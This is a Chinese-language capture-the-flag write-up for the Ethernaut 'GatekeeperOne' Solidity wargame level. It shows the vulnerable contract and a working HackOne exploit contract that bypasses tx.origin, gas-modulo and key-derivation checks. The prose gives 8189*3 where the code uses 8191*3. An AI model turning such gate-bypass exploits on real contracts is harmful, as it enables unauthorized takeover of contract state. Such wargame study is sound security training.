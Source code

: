 # Ethernaut 13-GatekeeperOne

## 本关目标

- 成为 entrant

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  // 目标成为entrant
  address public entrant;

  modifier gateOne() {
    // msg.sender要和tx.orign不同
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    // 剩余的gas要能被8191整除
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      // 传入的值要满足一定的条件
      // 32位的key要和16位的相同
      // 32位的key和64位的不同
      // 32位的key要和tx.orign的16位相同
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  // 需要破解gateOne、gateTwo、gateThree修改entrant
  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## 解决方案

1. 破解 gateOne， 只需要构造一个 Hack 合约，使用 Hack 合约调用 enter()
2. 破解 gateTwo， 需要测试调用 enter 需要消耗的 gas x，例如设置交易总 gas 为 x+8189 \* 3 即可（本关 x=256）
3. 破解 gateThree， 根据 tx.orign 的 16 位构造\_gateKey 的低 32 位，然后高位设置不同即可

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./GateKeeperOne.sol";

contract HackOne{

    GatekeeperOne  private immutable gateKeeperOne;

    constructor(address _target) {
        gateKeeperOne = GatekeeperOne (_target);
    }

    // 本关传入gas=256
    function hack(uint256 gas) external {
        bytes8 gateKey;
        // 构造_gaseKey
        gateKey = bytes8(uint64(1<<63) + uint64(uint16(uint160(tx.origin))));

        // 调用enter
        require(gateKeeperOne.enter{gas: 8191 * 3 + gas}(gateKey), "failed!");
    }
}
```

